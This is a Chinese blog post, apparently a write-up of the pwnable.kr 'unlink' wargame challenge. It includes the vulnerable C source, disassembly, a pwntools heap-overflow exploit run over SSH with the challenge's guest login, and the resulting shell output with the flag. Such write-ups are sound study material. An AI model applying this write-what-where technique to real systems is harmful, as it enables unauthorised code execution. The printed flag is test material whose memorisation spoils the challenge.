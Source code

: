 ```yaml
---
title: pwnable.kr-unlink
date: 2018-02-21 20:26:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
这是一道简化了的linux下`malloc`堆溢出漏洞利用。需要理解linux下关于`glibc的堆管理`的相关内容，[参考](http://blog.csdn.net/maokelong95/article/details/51989081#allocated-chunk)
# 分析
分析源码`unlink.c`
```c
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}

```
程序很简单完全就是教学版的`unlink堆溢出利用`。程序在`gets(A->buf)`处存在堆溢出漏洞，之后调用`unlink(B)`函数把`B`节点从链表中取下来。这个函数中，如果控制了`P`节点的`fb`和`bk`指针，那么就可以造成任意地址写入，写入过程是`将bk写入fb+4表示的地址处，将fb写入bk表示的地址处`。要想写入想要的地址，必须要保证两步写入操作不会触发写异常保护，这里需要控制`esp`的值来使`main`函数在返回时执行`ret`指令将`shell`地址赋给`eip`。
下面分析`main`函数反汇编代码，来构造`payload`
```nasm
0804852f <main>:
 804852f:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8048533:	83 e4 f0             	and    $0xfffffff0,%esp
 8048536:	ff 71 fc             	pushl  -0x4(%ecx)
 8048539:	55                   	push   %ebp
 804853a:	89 e5                	mov    %esp,%ebp
 804853c:	51                   	push   %ecx
 804853d:	83 ec 14             	sub    $0x14,%esp
 8048540:	83 ec 0c             	sub    $0xc,%esp
 8048543:	68 00 04 00 00       	push   $0x400
 8048548:	e8 53 fe ff ff       	call   80483a0 <malloc@plt>
 804854d:	83 c4 10             	add    $0x10,%esp
 8048550:	83 ec 0c             	sub    $0xc,%esp
 8048553:	6a 10                	push   $0x10
 8048555:	e8 46 fe ff ff       	call   80483a0 <malloc@plt>
 804855a:	83 c4 10             	add    $0x10,%esp
 804855d:	89 45 ec             	mov    %eax,-0x14(%ebp)
 8048560:	83 ec 0c             	sub    $0xc,%esp
 8048563:	6a 10                	push   $0x10
 8048565:	e8 36 fe ff ff       	call   80483a0 <malloc@plt>
 804856a:	83 c4 10             	add    $0x10,%esp
 804856d:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048570:	83 ec 0c             	sub    $0xc,%esp
 8048573:	6a 10                	push   $0x10
 8048575:	e8 26 fe ff ff       	call   80483a0 <malloc@plt>
 804857a:	83 c4 10             	add    $0x10,%esp
 804857d:	89 45 f0             	mov    %eax,-0x10(%ebp)
 8048580:	8b 45 ec             	mov    -0x14(%ebp),%eax
 8048583:	8b 55 f4             	mov    -0xc(%ebp),%edx
 8048586:	89 10                	mov    %edx,(%eax)
 8048588:	8b 55 ec             	mov    -0x14(%ebp),%edx
 804858b:	8b 45 f4             	mov    -0xc(%ebp),%eax
 804858e:	89 50 04             	mov    %edx,0x4(%eax)
 8048591:	8b 45 f4             	mov    -0xc(%ebp),%eax
 8048594:	8b 55 f0             	mov    -0x10(%ebp),%edx
 8048597:	89 10                	mov    %edx,(%eax)
 8048599:	8b 45 f0             	mov    -0x10(%ebp),%eax
 804859c:	8b 55 f4             	mov    -0xc(%ebp),%edx
 804859f:	89 50 04             	mov    %edx,0x4(%eax)
 80485a2:	83 ec 08             	sub    $0x8,%esp
 80485a5:	8d 45 ec             	lea    -0x14(%ebp),%eax
 80485a8:	50                   	push   %eax
 80485a9:	68 98 86 04 08       	push   $0x8048698
 80485ae:	e8 cd fd ff ff       	call   8048380 <printf@plt>
 80485b3:	83 c4 10             	add    $0x10,%esp
 80485b6:	8b 45 ec             	mov    -0x14(%ebp),%eax
 80485b9:	83 ec 08             	sub    $0x8,%esp
 80485bc:	50                   	push   %eax
 80485bd:	68 b8 86 04 08       	push   $0x80486b8
 80485c2:	e8 b9 fd ff ff       	call   8048380 <printf@plt>
 80485c7:	83 c4 10             	add    $0x10,%esp
 80485ca:	83 ec 0c             	sub    $0xc,%esp
 80485cd:	68 d8 86 04 08       	push   $0x80486d8
 80485d2:	e8 d9 fd ff ff       	call   80483b0 <puts@plt>
 80485d7:	83 c4 10             	add    $0x10,%esp
 80485da:	8b 45 ec             	mov    -0x14(%ebp),%eax
 80485dd:	83 c0 08             	add    $0x8,%eax
 80485e0:	83 ec 0c             	sub    $0xc,%esp
 80485e3:	50                   	push   %eax
 80485e4:	e8 a7 fd ff ff       	call   8048390 <gets@plt>
 80485e9:	83 c4 10             	add    $0x10,%esp
 80485ec:	83 ec 0c             	sub    $0xc,%esp
 80485ef:	ff 75 f4             	pushl  -0xc(%ebp)
 80485f2:	e8 0d ff ff ff       	call   8048504 <unlink>
 80485f7:	83 c4 10             	add    $0x10,%esp
 80485fa:	b8 00 00 00 00       	mov    $0x0,%eax
 80485ff:	8b 4d fc             	mov    -0x4(%ebp),%ecx
 8048602:	c9                   	leave  
 8048603:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048606:	c3                   	ret    
 8048607:	66 90                	xchg   %ax,%ax
 8048609:	66 90                	xchg   %ax,%ax
 804860b:	66 90                	xchg   %ax,%ax
 804860d:	66 90                	xchg   %ax,%ax
 804860f:	90                   	nop

```
可以发现`A,B,C`三个节点的栈地址分别是`ebp-0x14,ebp-0xc,ebp-0x10`，在函数结尾发现`ret`指令之前是`lea -0x4(%ecx),%esp`,说明`esp`最后会被`ecx`修改，而`ecx`又会被指令`mov -0x4(%ebp),%ecx`修改。于是要想把esp所表示地址的内容改为shell的地址，可以通过更改`ebp-4`的内容为`shell地址+4`来实现,而`ebp-4`的地址可以通过`A`地址来计算，它们的相对偏移为`ebp-4-(ebp-0x14)=16`。则堆块的内存布局如下
```
+-------------+--------------+   <= A
|   fd        |    bk        |
|shell_addr   |  aaaa        |
+-------------+--------------+   <= B
|    aaaaaaaa(chunk size)    |
|heap_addr+8+4|stack_addr+16 |
|            buf             |
+-------------+--------------+
```
要注意的是题目平台是64位系统，所以存储`chunk size`信息需要8字节，exp如下
```python
from pwn import *

context(arch='amd64',os='linux',log_level='info')
s = ssh(host='pwnable.kr',user='unlink',password='guest',port=2222)
shell_addr = 0x080484eb
ss = s.run('./unlink')
ss.recvuntil('here is stack address leak: ')
stack_addr = int(ss.recv(10),16)
ss.recvuntil('here is heap address leak: ')
heap_addr = int(ss.recv(10),16)
ss.sendline(p32(shell_addr)+'a'*12+p32(heap_addr+8+4)+p32(stack_addr+16))
ss.interactive()

```
```bash
root@kali:~/桌面# python 1.py
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Opening new channel: './unlink': Done
[*] Switching to interactive mode
now that you have leaks, get shell!
$ $ ls
flag  intended_solution.txt  unlink  unlink.c
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
$ $  

```
# 总结
做这道题目搜索了很多关于`glibc堆管理`的相关内容，学到了不少，这里推荐[一篇博文](https://chybeta.github.io/2017/08/19/Software-Security-Learning/)，它记录了很多关于软件安全方向的知识链接，很适合学习。另外pwable.kr的第一部分终于做完了，学到了不少基础知识，希望能在二进制的道路上越走越远。